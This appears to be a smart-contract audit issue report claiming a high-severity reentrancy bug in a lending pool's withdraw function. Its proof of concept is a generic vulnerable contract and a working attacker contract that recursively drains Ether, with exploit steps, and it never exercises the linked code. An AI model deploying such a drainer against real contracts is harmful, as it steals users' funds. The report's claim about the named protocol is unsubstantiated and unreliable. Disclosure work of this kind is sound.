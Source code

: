 Polished White Coyote

High

# Reentrancy Vulnerability in withdraw function for Pools contract

### Summary

Link: https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/Pool.sol#L339

The withdraw function transfers Ether to the caller before updating the balance of the caller. This can lead to a reentrancy attack where the attacker can call the withdraw function recursively before the state is updated.

### Root Cause

Lack of reentrancy guard

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Loss of funds.

### PoC

**Vulnerable contract**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableContract {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "Insufficient balance");

        // Reentrancy vulnerability here
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        balances[msg.sender] = 0;
    }

    // Helper function to check contract balance
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
**Attacker Contract**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./VulnerableContract.sol";

contract Attacker {
    VulnerableContract public vulnerableContract;

    constructor(address _vulnerableContract) {
        vulnerableContract = VulnerableContract(_vulnerableContract);
    }

    // Fallback function to receive Ether and recursively call withdraw
    fallback() external payable {
        if (address(vulnerableContract).balance >= msg.value) {
            vulnerableContract.withdraw();
        }
    }

    // Attack function to initiate the attack
    function attack() external payable {
        require(msg.value >= 1 ether, "Minimum 1 ether to attack");
        vulnerableContract.deposit{value: 1 ether}();
        vulnerableContract.withdraw();
    }

    // Helper function to check the balance of the attacker contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }

    // Withdraw funds from the attacker contract
    function withdrawFunds() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```
**Steps to Exploit**
Deploy the VulnerableContract:
Deploy the vulnerable contract on the blockchain.

**Deploy the Attacker Contract:**
Deploy the attacker contract, passing the address of the deployed VulnerableContract to the constructor.

**Fund the VulnerableContract:**
Deposit some Ether into the VulnerableContract from different accounts.

**Execute the Attack:**
Call the attack function of the Attacker contract with at least 1 Ether. The Attacker contract will then deposit 1 Ether into the VulnerableContract and immediately call withdraw. The fallback function of the Attacker contract will be triggered recursively, draining the VulnerableContract of all its Ether.

**Withdraw Stolen Funds:**
After the attack, the attacker can call withdrawFunds to retrieve all stolen Ether from the Attacker contract.


### Mitigation

Update the balance of the caller before transferring Ether.